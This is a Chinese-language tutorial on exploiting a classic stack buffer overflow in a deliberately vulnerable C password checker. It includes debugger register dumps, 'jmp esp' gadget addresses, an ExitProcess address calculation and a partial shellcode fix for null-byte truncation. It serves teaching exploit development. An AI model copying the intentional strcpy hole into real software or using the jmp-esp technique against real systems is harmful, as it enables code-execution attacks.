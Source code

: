 # Use springboard

**Author：wnagzihxain
Mail：tudouboom@163.com**

```
#include <stdio.h>
#include <windows.h>
#define PASSWORD "1234567"

int verify_password (char *password)
{
	int authenticated;
	char buffer[44];
	authenticated = strcmp(password, PASSWORD);
	strcpy(buffer, password);//over flowed here!	
	return authenticated;
}

int main()
{
	int valid_flag = 0;
	char password[1024];
	FILE * fp;
	LoadLibrary("user32.dll");//prepare for messagebox
	if(!(fp = fopen("password.txt", "rw+")))
	{
		exit(0);
	}
	fscanf(fp, "%s", password);
	valid_flag = verify_password(password);
	if(valid_flag)
	{
		printf("incorrect password!\n");
	}
	else
	{
		printf("Congratulation! You have passed the verification!\n");
	}
	fclose(fp);
	system("pause");
	return 0;
}
```

当输入11个`4321`，执行到retn的时候，可以看到ESP寄存器的值是`0x0012FB24`

![](Image/1.png)

现在我们把输入的数字变成14个`4321`

虽然程序跳到了不知道什么地方的地方，然而ESP寄存器的值依旧是`0x0012FB28`

![](Image/2.png)

寄存器的值，EBP被我们的数据覆盖掉了

![](Image/3.png)

```
EAX 31323334
ECX 0012FBB4 ASCII CC,"烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫"
EDX 00323334
EBX 7FFDC000
ESP 0012FB28
EBP 31323334
ESI 0012FB2C
EDI 0012FF80
EIP 00323334
```

因为ESP寄存器在函数返回后不被溢出的数据干扰，看上面两次的测试就可以看出来，不管有没有溢出，函数返回后ESP寄存器的值都是`0x0012FB28`

这时候隆重来介绍一下`jmp esp`，简单来说呢，就是用这句汇编来覆盖返回地址，具体怎么做接下来慢慢讲

首先用插件来搜索`jmp esp`，用现成的最好了，如果没有的去搜一下，`ollyuni.dll`

然后就可以用了

![](Image/4.png)

搜一下`jmp esp`那个，当然中间会卡一下，卡完之后就可以点击`L`看信息了

![](Image/5.png)

思来想去，决定选择`0x7FFA4512`

```
0027762F   Location found: call esp in [unknown]
00277A0D   Location found: call esp in [unknown]
00277A17   Location found: call esp in [unknown]
003010C8   Location found: call esp in [unknown]
00305028   Location found: jmp esp in [unknown]
00402166   Location found: jmp esp in stack_ov.text
00429233   Location found: call esp in stack_ov.rdata
7C8369C0   Location found: call esp in kernel32.text
7C871613   Location found: call esp in kernel32.text
7FFA4512   Location found: jmp esp in [unknown]
7FFA54CD   Location found: jmp esp in [unknown]
           11 addresses found, 0 filtered
```

好了，有了这个之后就可以开始下面的工作了

前面说到，程序在后面没有正常退出而是直接崩溃了，那么现在就来解决这个问题，方法也很简单，直接`exit`就好了

同样利用Dependency Walker找到`kernel.dll`的基址和`ExitProcess`的偏移，然后找个计算器加起来
```
0x7C800000 + 0x0001D20A = 0x7C81D20A
```

![](Image/6.png)

现在来准备password.txt

我们大概的过程先是把buffer都给覆盖掉，然后返回地址覆盖上刚刚的`jmp esp`的内存地址，再往下就是shellcode

行动！！！！！！

![](Image/7.png)

其实呢，这个shellcode是有点问题的，为什么呢？

这涉及到了截断的问题，B8 0A是一定会被截断的，所以……，往下看

重新载入，运行起来

![](Image/8.png)

的确是被截断了，后面那个00就是截断符，至于为什么后面再说，咱们这里先手动改一下
```
0012FB45    B8 0AD2817C     mov     eax,kernel32.ExitProcess
0012FB4A    FFD0            call    eax
```

![](Image/9.png)


然后继续运行，成功退出了：）






























